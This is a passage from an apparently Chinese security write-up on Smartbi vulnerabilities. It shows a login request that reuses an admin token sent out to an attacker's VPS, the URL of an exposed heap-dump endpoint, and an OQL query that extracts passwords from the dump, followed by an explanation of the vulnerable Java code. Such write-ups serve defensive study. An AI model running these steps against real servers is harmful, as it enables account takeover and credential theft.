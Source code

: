此时vps上会收到类似`{'token':'admin_UUID字符串'}`

（3）利用token登陆

```
POST /smartbi/smartbix/api/monitor/login

admin_UUID字符串
```



### heapdump抓取密码
访问如下地址，点击下载，即可得到`HeapDump.bin`
```
https://ip/vision/monitor/heapdump.jsp
```
利用`Eclipse Memory Analyze`工具来分析`HeapDump.bin`，工具下载地址：https://www.eclipse.org/mat/previousReleases.php

工具中有个图标名为`OQL`的功能（Open Object Query Language studio to execute statements），输入如下查询语句，可以得到用户的密码
```
select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password"))
```

`heapdump.jsp`核心代码如下，会将heapDump中的内容打包到HeapDump.bin文件中
```java
if(request.getParameter("dumpbin") != null) {
	if(log.canHeapDump()) {
		java.util.zip.ZipOutputStream zip = new java.util.zip.ZipOutputStream(response.getOutputStream());
		java.util.zip.ZipEntry entry = new java.util.zip.ZipEntry("HeapDump.bin");
		zip.putNextEntry(entry);
		log.heapDump(zip , false, false); // 生成heapdump
		zip.closeEntry();
		zip.flush();
		zip.close();
	}...
}
```
一般堆内存查询的主要思路是用JDK自带的tools.jar类库中`com.sun.tools.attach.VirtualMachine`类或其实现类。该类可以获取JVM相关控制权限。获取要监控的JVM的进程号，利用`VirtualMachine.attach()`方法，获取VirtualMachine的实例对象，然后通过实例对象调用`VirtualMachine.heapHisto()`方法，参数为`–all`, 可获到JVM的堆内存信息。如果想要打包出来则是调用`VirtualMachine.dumpHeap()`方法。此漏洞heapDump的实现代码如下
```java
HotSpotVirtualMachine machine = (HotSpotVirtualMachine)((AttachProvider)provider).attachVirtualMachine(pid);
InputStream is = machine.dumpHeap(new Object[]{tmp.getCanonicalPath(), all ? "-all" : "-live"});
ByteArrayOutputStream baos = new ByteArrayOutputStream();
byte[] buff = new byte[1024];

int readed;
while((readed = is.read(buff)) > 0) {
    baos.write(buff, 0, readed);
}

is.close();
```
